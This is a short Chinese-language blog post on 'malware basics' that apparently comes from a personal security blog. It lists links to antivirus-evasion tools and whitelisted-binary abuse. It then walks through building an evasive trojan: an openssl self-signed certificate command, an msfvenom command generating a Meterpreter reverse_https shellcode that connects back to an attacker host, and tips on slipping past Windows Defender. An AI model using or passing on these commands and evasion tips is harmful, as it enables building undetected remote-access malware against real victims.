 ```yaml
---
layout: post
title: "【网络安全】恶意软件基础"
date: 2025-02-21
author: "3thernet"
header-img: "img/city-2.jpg"
tags: []
---
```


综合文章：

[红队技术 - 钓鱼手法及木马免杀技巧 | Hyyrent blog](https://pizz33.github.io/posts/53de6033c423/)

免杀工具：

[1y0n/AV_Evasion_Tool： 掩日 - 免杀执行器生成工具](https://github.com/1y0n/AV_Evasion_Tool)

[LOLBAS](https://lolbas-project.github.io/)

[Windows上传并执行恶意代码的N种姿势-腾讯云开发者社区-腾讯云](https://cloud.tencent.com/developer/article/1141143) 白名单文件常被LNK攻击利用

[远控免杀从入门到实践之白名单（113个）总结篇 - FreeBuf网络安全行业门户](https://www.freebuf.com/articles/system/232074.html)

[Wmic.exe - iNotes](https://ihsansencan.github.io/privilege-escalation/windows/binaries/wmic-exe.html)

样本分析：

[2023011603.pdf](https://wtc.antiy.cn/download/2023011603.pdf)

[黑产组织攻击样本的一些对抗技术 - 先知社区](https://xz.aliyun.com/t/13705?time__1311=GqmxuQD%3DW4cDlxGgx%2BxCwh4joO5Wq6Y63x)

[银狐猎影：深度揭示银狐团伙技战法 - 安全内参 | 决策者的网络安全知识库](https://www.secrss.com/articles/60688)

[Windows 操作系统考古学 |PPT |免费下载](https://www.slideshare.net/enigma0x3/windows-operating-system-archaeology)

## 一、制作免杀木马：

用reverse_https能够避免被windows defender动态查杀

1、自签名证书

`openssl req -new -newkey rsa:2048 -days 365 -nodes -x509 -keyout ssl.pem -out ssl.pem -subj "/CN=mydomain.com"`

2、hex shellcode：

`msfvenom -p windows/x64/meterpreter/reverse_https LHOST=XXX LPORT=xxxx HandlerSSLCert=ssl.pem -f hex -o shellcode.txt`

~~根据需要加入多次编码，防止shellcode被标记`-e x86/shikata_ga_nai -i 30`~~

多次测试发现reverse_https无法编码，请通过重新生成证书来防止被标记，执行migrate和shell会触发Windows Defender运行时扫描，很大可能性被杀，这样子也没有办法派生shell给cobaltstrike
